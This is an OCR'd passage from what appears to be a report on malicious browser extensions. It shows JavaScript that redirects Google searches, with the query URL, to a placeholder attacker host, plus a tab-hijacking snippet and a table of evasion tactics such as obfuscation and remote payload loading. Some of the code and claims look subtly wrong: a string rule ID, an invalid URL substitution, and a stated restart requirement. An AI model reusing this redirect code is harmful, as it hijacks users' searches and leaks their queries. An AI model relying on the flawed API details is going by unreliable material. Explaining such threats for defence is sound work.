 
### **2. Navigation Modification APIs**  
Extensions leverage browser APIs to alter user navigation:  

#### **`declarativeNetRequest` API**  
This API allows real-time URL interception and redirection. Example code to redirect Google searches:  
```javascript  
// background.js  
chrome.declarativeNetRequest.updateDynamicRules({  
  removeRuleIds: ["google_redirect"],  
  addRules: [{  
    id: 1,  
    priority: 1,  
    action: {  
      type: "redirect",  
      redirect: {  
        url: "https://malicious-site.com/search?query={request.url}"  
      }  
    },  
    condition: {  
      urlFilter: "google.com/search",  
      resourceTypes: ["main_frame"]  
    }  
  }]  
});  
```  
- **Limitations**:  
  - Requires user restart for rules to take effect.  
  - Only works for HTTP/HTTPS URLs.  

#### **`chrome.tabs.update()`**  
Programmatically changes the current tab’s URL but requires user interaction (e.g., a button click):  
```javascript  
chrome.action.onClicked.addListener((tab) => {  
  chrome.tabs.update(tab.id, {  
    url: "https://malicious-site.com"  
  });  
});  
```  
- **Constraints**:  
  - Requires `"activeTab"` permission.  
  - Limited to user-triggered events.  

---

### **3. Evasion Tactics in Development**  
Attackers employ techniques to avoid detection and analysis:  

| Tactic                | Implementation                                  | Purpose                                      |  
|-----------------------|------------------------------------------------|----------------------------------------------|  
| **Code Obfuscation**   | Minification, encryption, or polymorphic code  | Hides malicious logic from static analysis   |  
| **Permission Deception** | Request innocuous permissions first (e.g., "storage") | Avoids suspicion during installation         |  
| **Dynamic Loading**    | Load malicious payloads from remote servers   | Evades signature-based detection             |  
